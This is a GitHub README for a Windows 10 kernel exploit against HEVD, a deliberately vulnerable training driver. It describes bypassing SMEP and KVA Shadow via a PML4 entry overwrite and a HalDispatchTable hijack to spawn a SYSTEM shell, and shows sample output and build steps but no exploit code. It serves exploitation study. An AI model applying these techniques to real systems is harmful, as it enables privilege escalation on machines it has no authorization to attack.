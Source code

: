 # HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit

## Introduction

This repository contains an exploit for [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) that bypasses [KVA Shadow](https://msrc.microsoft.com/blog/2018/03/kva-shadow-mitigating-meltdown-on-windows/), a mitigation for the Meltdown vulnerability.


## Exploit Overview

The exploit leverages [an Arbitrary Overwrite vulnerability in HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/b02b6ea/Driver/HEVD/Windows/ArbitraryWrite.c#L112), modifying the PML4 entry to bypass both KVA Shadow and SMEP.

For a detailed explanation and walkthrough of this exploit, see my blog post: [Windows Kernel Exploitation — HEVD on Windows 10 22H2](https://medium.com/@ommadawn46/windows-kernel-exploitation-hevd-on-windows-10-22h2-b407c6f5b8f7).
 

## Tested Environment

This exploit was tested in the following environment:

- Windows 10 Version 22H2 (OS Build 19045.3930)
- KVA Shadow: Enabled
- VBS/HVCI: Disabled


### Sample Output

```
C:\Users\debuggee>HEVD_ArbitraryOverwrite.exe
HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit
Windows 10 Version 22H2 (OS Build 19045.3930) with KVA Shadow enabled
-----

[*] Executable shellcode: 000002846A110000
[+] HEVD device handle: 0000000000000098
[+] Kernel base address: FFFFF80560A00000
[+] NtQueryIntervalProfile: 00007FF8C704FA00

[*] Leaking virtual address of shellcode's PML4 entry...
[!] Writing: *(000000BF51BBFC60) = *(FFFFF80560C6B573)
[*] Leaked PTE virtual address: FFFF940000000000
[*] Extracted PML4 Self Reference Entry index: 128
[*] Extracted shellcode's PML4 index: 005
[*] Calculated virtual address for shellcode's PML4 entry: FFFF944A25128028

[*] Modifying shellcode's PML4 entry to bypass SMEP and KVA Shadow...
[!] Writing: *(000000BF51BBFC70) = *(FFFF944A25128028)
[*] Leaked shellcode's PML4 entry: 8A0000015F3D5867
[*] Modified shellcode's PML4 entry: 0A0000015F3D5863
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCB8)
[*] Overwrote PML4 entry to make shellcode executable in kernel mode

[*] Modifying HalDispatchTable+0x8 for shellcode execution...
[!] Writing: *(000000BF51BBFC70) = *(FFFFF80561600A68)
[*] Leaked HalDispatchTable+0x8: FFFFF80561392EF0
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFCE0)
[*] Overwrote HalDispatchTable+0x8 to gain control flow

[*] Executing shellcode...
[*] Executable SetR13 function allocated at: 000002846A240000
[*] Setting R13 to shellcode's address
[*] Calling NtQueryIntervalProfile to execute shellcode

[*] Restoring the kernel state...
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCF8)
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFD00)

[+] Spawning a shell with SYSTEM privilege
```

```
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\Users\debuggee>whoami
nt authority\system
```


## Build

To build the exploit, execute the following command in [x64 Native Tools Command Prompt](https://learn.microsoft.com/cpp/build/how-to-enable-a-64-bit-visual-cpp-toolset-on-the-command-line?view=msvc-170):

```
cl.exe HEVD_ArbitraryOverwrite.c
```


## Verifying KVA Shadow Status

To verify if KVA Shadow is active on your system, use [SpecuCheck](https://github.com/ionescu007/SpecuCheck):

```
C:\Users\debuggee>SpecuCheck.exe
SpecuCheck v1.1.1    --   Copyright(c) 2018 Alex Ionescu
https://ionescu007.github.io/SpecuCheck/  --   @aionescu
--------------------------------------------------------

Mitigations for CVE-2017-5754 [rogue data cache load]
--------------------------------------------------------
[-] Kernel VA Shadowing Enabled:                    yes
 ├───> Unnecessary due lack of CPU vulnerability:    no
 ├───> With User Pages Marked Global:                no
 ├───> With PCID Support:                           yes
 └───> With PCID Flushing Optimization (INVPCID):   yes
...
```
